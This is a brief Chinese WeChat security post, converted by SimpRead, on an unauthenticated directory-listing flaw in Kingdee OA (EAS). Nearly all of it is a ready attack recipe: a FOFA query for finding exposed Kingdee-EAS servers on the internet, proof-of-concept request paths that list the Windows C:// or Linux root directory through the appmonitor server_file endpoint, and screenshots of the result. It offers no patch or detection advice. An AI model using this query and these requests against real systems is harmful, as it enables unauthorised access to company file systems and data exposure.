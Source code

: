 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/M9wZwqLGafQZCZcIYcIEeA)

  

  

点击蓝字 / 关注我们

  

01

漏洞影响

金蝶 OA  

02

FOFA 语法

app="Kingdee-EAS"

03

相关 POC

Windows  

----------

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux
-----

appmonitor/protected/selector/server_file/files?folder=/&suffix=

04

具体例子

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9QcJ2kg6C1lQYxgpciaNPcyT9Wvia7OXB7PIygkhIDhodmCALRdSGR9jSKNdXZ7OwAH2uNvs6ktpEmA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9QcJ2kg6C1lQYxgpciaNPcyTcUJRhTu4TXCb3bHsCFExWesXyplanfRjUnrWmt9vL09fjQHOiaXkSBA/640?wx_fmt=png)